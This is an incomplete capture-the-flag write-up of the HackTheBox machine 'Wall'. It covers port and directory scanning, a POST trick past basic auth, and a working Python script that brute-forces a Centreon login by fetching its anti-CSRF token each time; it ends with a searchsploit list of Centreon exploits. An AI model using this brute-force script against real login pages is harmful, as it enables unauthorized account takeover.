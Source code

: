 Title:HTB: Wall
Date: xx-xx-2020 12:30
category:security
tags:security, boot2root, HTB,
meta:security, boot2root, HTB,

<img class="align-left" src="/media/2020.xx/wall_card.png" alt="Wall Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Wall](https://www.hackthebox.eu/home/machines/profile/208).
This box is rated as a medium box. It implies a lot of frustration, some

<!-- PELICAN_END_SUMMARY -->

[TOC]

# User

## Recon

Let us start as always by a `nmap` scan the ports 22 (SSH) and 80 (HTTP)
are open.

    :::text
    # Nmap 7.80 scan initiated Thu Nov 28 07:17:03 2019 as: nmap -p- -oA nmap 10.10.10.157
    Nmap scan report for 10.10.10.157
    Host is up (0.085s latency).
    Not shown: 65444 closed ports, 89 filtered ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Thu Nov 28 07:30:05 2019 -- 1 IP address (1 host up) scanned in 782.66 seconds


## Web

The home page is the default Apache page.

![Default apache page](/media/2020.xx/wall_1.png)

We run a dib against the site. Only one URL is found by the tool `/monitoring`.
```
-----------------
DIRB v2.22
By The Dark Raver
-----------------

OUTPUT_FILE: dirb
START_TIME: Thu Sep 19 11:29:07 2019
URL_BASE: http://10.10.10.157/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.157/ ----
+ http://10.10.10.157/index.html (CODE:200|SIZE:10918)
+ http://10.10.10.157/monitoring (CODE:401|SIZE:459)
+ http://10.10.10.157/server-status (CODE:403|SIZE:300)

-----------------
END_TIME: Thu Sep 19 11:41:07 2019
DOWNLOADED: 4612 - FOUND: 3
```

The page is protected with a basic auth with the message "Protected area by the
admin". We guess that the user is "admin".  We could try to bruteforce the
password but that doesn't work.

After some frustration, I sent some POST data to the page. Which result in a
redirection to `/monitoring/` (notice the final `\`) and to a new URL.

```
root@kalili:~# curl -d 'data=data' -X POST http://10.10.10.157/monitoring
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.10.10.157/monitoring/">here</a>.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 10.10.10.157 Port 80</address>
</body></html>
root@kalili:~# curl -d 'data=data' -X POST http://10.10.10.157/monitoring/
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

We go to the `/centreon` URL. This is another authentication form.

![Centreon authentication](/media/2020.xx/wall_2.png)

We can guess that the user is admin. We load the 50 first enrties of rockyou
(`head -n 50 rockyou.txt > rockyou_50.txt`).

*Disclaimer: Bruteforce attacks are pretty uncommon on HTB. I asked on the
Discord if this was the right track before bruteforcing as it might distrupt the
box for other users.*

When looking at the requests we can see that there is an token to protect the
application against brute force. We wrote a simple python script to make a first
request, get the token and send a authentication requests.


    :::python
    import requests
    from bs4 import BeautifulSoup

    url = "http://10.10.10.157/centreon/index.php"

    def testPassword(password):
        s = requests.Session()
        r = s.get(url)

        soup = BeautifulSoup(r.text, 'html.parser')
        token = soup.find_all('input')[3].get('value')

        r = s.post(url, data = {'useralias':'admin', 'password': password, 'submitLogin':'Connect', 'centreon_token':token})
        if ('Your credentials are incorrect.' not in r.text):
            print(password)

    file = open("rockyou_50.txt")
    for password in file:
        testPassword(password.strip())

We launch the sciript and get the password: `password1`.

```
python3 bruteforce.py
password1

```

We can login in the centron interface.

![Centreon interface](/media/2020.xx/wall_3.png)

    # searchsploit centreon
    --------------------------------------- ----------------------------------------
     Exploit Title                         |  Path
                                           | (/usr/share/exploitdb/)
    --------------------------------------- ----------------------------------------
    Centreon - SQL Injection / Command Inj | exploits/unix/remote/35078.rb
    Centreon 1.4.2.3 - 'get_image.php' Rem | exploits/php/webapps/5204.py
    Centreon 1.4.2.3 - 'index.php' Local F | exploits/php/webapps/31318.txt
    Centreon 19.04  - Remote Code Executio | exploits/php/webapps/47069.py
    Centreon 2.3.1 - 'command_name' Remote | exploits/php/webapps/36293.txt
    Centreon 2.5.3 - Remote Command Execut | exploits/php/webapps/39501.txt
    Centreon 2.5.3 - Web Useralias Command | exploits/python/remote/40170.rb
    Centreon 2.5.4 - Multiple Vulnerabilit | exploits/php/webapps/37528.txt
    Centreon 2.6.1 - Multiple Vulnerabilit | exploits/php/webapps/38339.txt
    Centreon < 2.5.1 / Centreon Enterprise | exploits/linux/webapps/41676.rb
    Centreon Enterprise Server 2.3.3 < 2.3 | exploits/php/webapps/23362.py
    Centreon IT & Network Monitoring 2.1.5 | exploits/php/webapps/11979.pl
    Oreon 1.4 / Centreon 1.4.1 - Multiple  | exploits/php/webapps/4735.txt
    --------------------------------------- ----------------------------------------
    Shellcodes: No Result
    Papers: No Result


# Root

# Wrapping up
